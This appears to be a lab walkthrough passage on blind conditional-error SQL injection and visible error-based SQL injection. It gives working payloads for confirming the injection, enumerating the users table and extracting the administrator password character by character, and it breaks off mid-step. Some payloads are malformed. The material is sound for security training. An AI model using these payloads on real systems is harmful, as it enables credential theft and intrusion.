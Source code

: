 ## 12. Blind SQL injection with conditional errors

Confirm that the parameter is vulnerable by inserting `'|| (SELECT '' FROM DUAL) ||'`

After finding that right, we determine that the users table exists in the database by inserting `'|| (SELECT '' FROM users WHERE rownum=1) ||'`

It will be returned as true.

Next, confirm whether the administrator user exists in the users database or not by inserting:

`'|| (SELECT '' FROM users WHERE username='administrator') ||'` => return 200 OK

`'|| (SELECT CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM DUAL) ||'` => return 200 OK

`'|| (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator') ||'` => return 500 Internal Server Error, it also means the administrator user exists.

For right now, we can attack this lab. First, determine the password's length by adding the query `length(password) > 1` and `length(password) > 50`. This means the password's length is between [1;50] characters.

`'|| (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' and length(password) > 1) ||'`

`'|| (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' and length(password) > 50) ||'`

To find the length of the password exactly, we proceed to use the sniper method:

- Find the first character:
`'|| (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' and substr(password, 1, 1) = 'a') ||'` => find the request has a status code response of 500

- Find other characters: we switch to cluster bomb mode and set up two payloads, with payload 1 indicating the location of the password and payload 2 representing the character that is held at that position. Then proceed to launch the attack. Obtained characters will have a status of 500.

## 13. Visible error-based SQL injection

Adding the `'` sign to the back of the `TrackingId`. In the response section, note the lengthy error message. This reveals the full SQL query, including the cookie value.

Next, in the request, adding `'--` to the query. Then use up to CAST statement by inserting `' AND CAST(SELECT 1) as int)--`. We will receive an error.

Switch to boolean type: `' AND 1=CAST(SELECT 1) as int)--` => Do not receive error message, so we can follow this attack.

Change a little bit of adding query `' AND 1=CAST(SELECT username FROM users) as int)--`. The returned result shows that it's right cause we do not receireceive error message.

Delete the TrackingId and only retain ` AND 1=CAST(SELECT username FROM users) as int)--`. 

This will return more than 1 line, so we add LIMIT 1 `' AND 1=CAST(SELECT username FROM users LIMIT 1) as int)--`

Returned result is not have administrator. Therefore, we change to select password:
